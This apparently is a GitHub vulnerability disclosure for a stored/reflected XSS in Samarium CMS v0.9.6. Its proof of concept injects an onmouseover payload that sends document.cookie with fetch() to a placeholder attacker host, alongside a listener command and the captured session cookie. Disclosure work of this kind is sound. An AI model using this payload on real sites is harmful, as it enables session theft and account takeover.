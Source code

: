 # Reflected Cross-Site Scripting (XSS) — cookie exfiltration / arbitrary JS execution

When visiting http://localhost:8000/cms/post and creating a new post using the Heading field, it is possible to insert unsanitized XSS payloads. For example, by adding an element with an onmouseover attribute we were able to demonstrate both reflected XSS and exfiltration of the user's session cookie.

GitHub: https://github.com/oitcode/samarium

## Environment / access:
- Docker image: samarium-app
- DB: samarium_db (MySQL)
- Test URL: http://localhost:8000
- Version: v0.9.6
  
## POC (brief):
1. Start a listener on an attacker host:
   python3 -m http.server 4444

2. Create a post (Heading) containing:
   <a onmouseover="fetch('http://<YOUR-IP>:4444/?pwned='+document.cookie)">ON MOUSE OVER</a>
<img width="1717" height="595" alt="Image" src="https://github.com/user-attachments/assets/c1c62305-2c55-4b60-9a28-ba04aedee087" />

3. Visit the post page and hover the injected element — the listener receives:
   GET /?pwned=XSRF-TOKEN=...; samarium_erp_session=... HTTP/1.1
<img width="962" height="299" alt="Image" src="https://github.com/user-attachments/assets/6dbda46d-64cc-4d9e-8db7-90573dabafe5" />

and when you hover the mouse over the text on the screen "On Mouse Over" we receive the session cookie

<img width="962" height="299" alt="Image" src="https://github.com/user-attachments/assets/01596a9a-43b1-4818-a6bf-e9f3f49976dd" />


## Impact

High — an attacker can execute arbitrary JavaScript in the context of any user who views the crafted content or visits a crafted URL.

Possible consequences include theft of session cookies and CSRF tokens, account takeover, performing actions on behalf of the victim, and lateral social‑engineering attacks.

Risk is increased if cookies are not set with HttpOnly, Secure and suitable SameSite attributes.

## Technical details

The Heading field accepts HTML and attributes without adequate sanitization or output encoding.

Inline event attributes such as onmouseover are not filtered or removed, allowing code execution when the event is triggered.

This behavior leads to both stored and reflected XSS scenarios depending on how content is shared or linked.
